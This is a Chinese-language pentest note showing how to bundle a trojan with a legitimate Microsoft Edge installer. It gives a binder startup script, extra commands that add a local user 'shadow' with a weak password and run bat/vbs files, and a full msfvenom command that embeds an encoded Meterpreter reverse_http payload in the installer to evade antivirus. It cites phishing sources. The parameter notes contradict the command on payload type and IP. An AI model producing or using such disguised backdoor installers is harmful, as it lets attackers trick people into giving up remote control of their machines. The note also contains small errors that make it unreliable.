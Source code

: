 ![image-20240717111536127](http://cdn.ayusummer233.top/DailyNotes/202407171115466.png)

在左下角 `启动脚本` 区域写入要执行的脚本, 例如这里应当是启动恶意程序以及合法程序

```
call %root%/./msedge.exe
call %root%/./Microsoft Edge.lnk
clean //清理释放后的文件
```

> PS: 一些额外启动脚本代码示例:
>
> ```
> cmd net user shadow 123 /add     //添加一个用户shadow
> start cmd /c %root%\shadow.bat   //执行测试的bat
> start wscript %root%\shadow.vbs  //执行测试vbs
> ```

---

点击左下角 `选择图标` 按钮选择生成程序的图标然后点击右下角的 `生成` 按钮即可生成捆绑程序

![image-20240717112857786](http://cdn.ayusummer233.top/DailyNotes/202407171128899.png)

![image-20240717113544992](http://cdn.ayusummer233.top/DailyNotes/202407171135121.png)

![image-20240717113610390](http://cdn.ayusummer233.top/DailyNotes/202407171136547.png)

---

## msfvenom捆绑程序

> [msf之木马程序-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1699911)
>
> [【渗透测试笔记】之【钓鱼姿势——exe捆绑与免杀】-CSDN博客](https://blog.csdn.net/qq_44874645/article/details/118525837)

准备好目标程序(这里选择了Microsoft Edge安装包, 放在了 `/root/temp/MicrosoftEdgeSetup.exe`)

使用 msfvenom 生成捆绑木马

```bash
msfvenom -p windows/meterpreter/reverse_http lhost=100.1.1.131 lport=55555 -e x86/shikata_ga_nai -i 15 -f exe -b '\x00\x0a\x0d' -x /root/temp/MicrosoftEdgeSetup.exe > /root/temp/out/MicrosoftEdgeSetup.exe
```

- `-p`：指定后面的 payload

  `windows/meterpreter/reverse_tcp`：申明这是一个windows系统下的一个反弹http

- `LHOST=192.168.0.108,`：设置反弹回来的ip，即你的kali的ip地址

- `lport` 反弹端口(默认返回端口是4444)

- `-e`: 指定编码器 `x86/shikata_ga_nai`

- `-i`: 指定编码次数
